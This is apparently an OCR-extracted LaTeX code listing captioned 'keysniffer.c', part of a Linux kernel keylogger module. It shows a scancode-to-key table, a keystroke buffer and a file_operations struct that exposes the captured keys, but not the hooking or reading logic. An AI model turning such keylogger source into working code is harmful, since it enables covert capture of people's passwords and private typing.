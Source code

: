 \begin{lstlisting}[language=c++,,escapeinside={(@}{@)},caption={keysniffer.c}]
static const char* us_keymap[][2] = {
{ "\0", "\0" }, { "_ESC_", "_ESC_" }, { "1", "!" }, { "2", "@" }, //0-3
{ "3", "#" }, { "4", "$" }, { "5", "%" }, { "6", "^" }, //4-7
{ "7", "&" }, { "8", "*" }, { "9", "(" }, { "0", ")" }, //8-11
{ "-", "_" }, { "=", "+" }, { "_BACKSPACE_", "_BACKSPACE_" }, //12-14
{ "_TAB_", "_TAB_" }, { "q", "Q" }, { "w", "W" }, { "e", "E" }, { "r", "R" },
{ "t", "T" }, { "y", "Y" }, { "u", "U" }, { "i", "I" }, //20-23
{ "o", "O" }, { "p", "P" }, { "[", "{" }, { "]", "}" }, //24-27
{ "_ENTER_", "_ENTER_" }, { "_CTRL_", "_CTRL_" }, { "a", "A" }, { "s", "S" },
{ "d", "D" }, { "f", "F" }, { "g", "G" }, { "h", "H" }, //32-35
{ "j", "J" }, { "k", "K" }, { "l", "L" }, { ";", ":" }, //36-39
{ "'", "\"" }, { "`", "~" }, { "_SHIFT_", "_SHIFT_" }, { "\\", "|" }, //40-43
{ "z", "Z" }, { "x", "X" }, { "c", "C" }, { "v", "V" }, //44-47
{ "b", "B" }, { "n", "N" }, { "m", "M" }, { ",", "<" }, //48-51
{ ".", ">" }, { "/", "?" }, { "_SHIFT_", "_SHIFT_" }, { "_PRTSCR_", "_KPD*_" },
{ "_ALT_", "_ALT_" }, { " ", " " }, { "_CAPS_", "_CAPS_" }, { "F1", "F1" },
{ "F2", "F2" }, { "F3", "F3" }, { "F4", "F4" }, { "F5", "F5" }, //60-63
{ "F6", "F6" }, { "F7", "F7" }, { "F8", "F8" }, { "F9", "F9" }, //64-67
{ "F10", "F10" }, { "_NUM_", "_NUM_" }, { "_SCROLL_", "_SCROLL_" }, //68-70
{ "_KPD7_", "_HOME_" }, { "_KPD8_", "_UP_" }, { "_KPD9_", "_PGUP_" }, //71-73
{ "-", "-" }, { "_KPD4_", "_LEFT_" }, { "_KPD5_", "_KPD5_" }, //74-76
{ "_KPD6_", "_RIGHT_" }, { "+", "+" }, { "_KPD1_", "_END_" }, //77-79
{ "_KPD2_", "_DOWN_" }, { "_KPD3_", "_PGDN" }, { "_KPD0_", "_INS_" }, //80-82
{ "_KPD._", "_DEL_" }, { "_SYSRQ_", "_SYSRQ_" }, { "\0", "\0" }, //83-85
{ "\0", "\0" }, { "F11", "F11" }, { "F12", "F12" }, { "\0", "\0" }, //86-89
{ "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" },
{ "\0", "\0" }, { "_ENTER_", "_ENTER_" }, { "_CTRL_", "_CTRL_" }, { "/", "/" },
{ "_PRTSCR_", "_PRTSCR_" }, { "_ALT_", "_ALT_" }, { "\0", "\0" }, //99-101
{ "_HOME_", "_HOME_" }, { "_UP_", "_UP_" }, { "_PGUP_", "_PGUP_" }, //102-104
{ "_LEFT_", "_LEFT_" }, { "_RIGHT_", "_RIGHT_" }, { "_END_", "_END_" },
{ "_DOWN_", "_DOWN_" }, { "_PGDN", "_PGDN" }, { "_INS_", "_INS_" }, //108-110
{ "_DEL_", "_DEL_" }, { "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" }, //111-114
{ "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" }, { "\0", "\0" }, //115-118
{ "_PAUSE_", "_PAUSE_" }, //119
};

static size_t buf_pos;
static char keys_buf[BUF_LEN] = { 0 };

const struct file_operations keys_fops = {
.owner = THIS_MODULE,
.read = keys_read,
};


\end{lstlisting}
